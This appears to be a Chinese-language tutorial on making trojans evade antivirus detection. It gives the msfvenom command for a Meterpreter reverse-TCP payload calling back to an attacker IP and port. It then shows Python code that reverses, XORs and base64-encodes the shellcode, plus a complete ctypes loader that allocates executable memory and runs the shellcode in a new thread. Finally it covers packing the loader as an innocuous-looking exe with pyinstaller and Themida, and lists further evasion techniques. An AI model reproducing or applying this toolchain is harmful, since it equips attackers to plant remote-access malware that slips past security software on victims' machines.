 # 木马免杀

**0x00 免杀**

> 木马免杀的方法有很多种，如反转、异或、远程加载、加壳等，这里举例**反转加异或**

**0x01 利用msfvenom制作木马**

```shell
sfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.12.135 LPORT=5555 -f py > 2.py

# -p 指定payload
# LHOST 指定接收IP
# LPORT	指定接收端口
# -f 输出文件格式
# –o 文件输出
```

**0x02 将木马文件内容进行加工**

```python
######################################################
# 1、对木马进行处理(buf变量是生成python木马的内容)
import binascii

results = binascii.b2a_hex(buf)
new = results.decode()[::-1]
print(new) 

######################################################

# 2、将生成的new字符串进行异或运算
import base64
import binascii
def xor(tips, key):
    lkey = len(key)
    secret = []
    num = 0
    for each in tips:
        if num >= lkey:
            num = num % lkey
        secret.append(chr(ord(each) ^ ord(key[num])))
        num += 1
    return secret

# 异或加密
new = ""		# new是第一步生成的new值
encd = xor(new, 'ad')
resp = base64.b64encode("".join(encd).encode()).decode()
print(resp)

######################################################

# 3、加载器
import base64
import binascii


def xor(tips, key):
    lkey = len(key)
    secret = []
    num = 0
    for each in tips:
        if num >= lkey:
            num = num % lkey
        secret.append(chr(ord(each) ^ ord(key[num])))
        num += 1
    return secret

code = ""		# code是第二步生成的resp的值
tips = base64.b64decode(code.encode()).decode()
decd = xor(tips, 'ad')
resp = "".join(decd)
new = resp.encode()[::-1]
results = binascii.a2b_hex(new)
print(results)

# # 加载器
import ctypes
shellcode = results
shellcode = bytearray(shellcode)
# 设置VirtualAlloc返回类型为ctypes.c_uint64
ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_uint64
# 申请内存
ptr = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0), ctypes.c_int(len(shellcode)), ctypes.c_int(0x3000), ctypes.c_int(0x40))
# 放入shellcode
buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
ctypes.windll.kernel32.RtlMoveMemory(
    ctypes.c_uint64(ptr),
    buf,
    ctypes.c_int(len(shellcode))
)
# 创建一个线程从shellcode放置位置首地址开始执行
handle = ctypes.windll.kernel32.CreateThread(
    ctypes.c_int(0),
    ctypes.c_int(0),
    ctypes.c_uint64(ptr),
    ctypes.c_int(0),
    ctypes.c_int(0),
    ctypes.pointer(ctypes.c_int(0))
)
# 等待上面创建的线程运行完
ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(handle),ctypes.c_int(-1))
```

**0x03 将加载器文件打包成人畜无害的exe文件**

```shell
pyinstaller -F -w 03_Loader.py

# -F 只在dist中产生一个exe文件。
# -w 只对windows有效，不使用控制台。
# -i 设置好看的ico格式的图标，加上该参数，指定图标路径。
# -p 设置导入路径
```

**0x04 加壳**

利用Themida给exe文件进行加壳——加壳工具有很多，可自行决定

![image-20230225143957741](https://s2.loli.net/2023/02/25/p1jRaz93oY5FV4I.png)





**0x05 将打包的文件用安全软件进行检测**

实际免杀效果需要自己测试，和写的加密方式有关

>  注意，查杀有两种：
>
> 一、特征码检测
>
> 二、行为检测
>
> 在通过免杀的基础上还要保证能正常运行



**0x06 免杀方法汇总**

- 远程加载
- 进程注入
- 傀儡进程
- 未导出API
- 掩日
- 等等

